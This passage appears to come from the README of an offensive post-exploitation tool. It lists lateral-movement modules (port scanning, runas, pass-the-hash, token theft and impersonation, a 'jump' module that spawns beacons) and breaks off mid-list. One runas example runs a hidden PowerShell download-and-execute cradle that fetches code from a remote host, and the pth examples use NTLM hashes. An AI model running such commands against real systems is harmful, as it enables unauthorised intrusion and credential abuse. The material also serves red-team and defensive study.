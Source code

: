 * **covertvpn:** Deploy a VPN on the current system, will create a new interface and merge it into a specified IP. Using this we can use a local interface to access the internal target network like we would do if we had a real connection through a router.

### Lateral Movement

* **portscan:** Performs a portscan on a spesific target.
* **portscan Usage:**

```
portscan [ip or ip range] [ports]
```

i.e.

```
portscan 172.16.48.0/24 1-2048,3000,8080
```

The above command will scan the entire 172.16.48.0/24 subnet on ports 1 to 2048, 3000 and 8080. This can be utilized for single IPs as well.

* **runas:** A wrapper of runas.exe, using credentials you can run a command as another user.
* **runas Usage:**

```
runas [DOMAIN\user] [password] [command] [arguments]
```

i.e.

```
runas CORP\Administrator securePassword12! Powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.90:80/filename'))"
```

* **pth:** By providing a username and a NTLM hash you can perform a Pass The Hash attack and inject a TGT on the current process.\
  :exclamation: This module needs Administrator privileges.
* **pth Usage:**

```
pth [DOMAIN\user] [hash]
```

```
pth Administrator 97fc053bc0b23588798277b22540c40d
pth CORP\Administrator 97fc053bc0b23588798277b22540c40d
```

* **steal\_token:** Steal a token from a specified process.
* **make\_token:** By providing credentials you can create an impersonation token into the current process and execute commands from the context of the impersonated user.
* **jump:** Provides easy and quick way to move lateraly using winrm or psexec to spawn a new beacon session on a target.\
  :exclamation: The **jump** module will use the current delegation/impersonation token to authenticate on the remote target.\
  :muscle: We can combine the **jump** module with the **make\_token** or **pth** module for a quick "jump" to another target on the network.
* **jump Usage:**

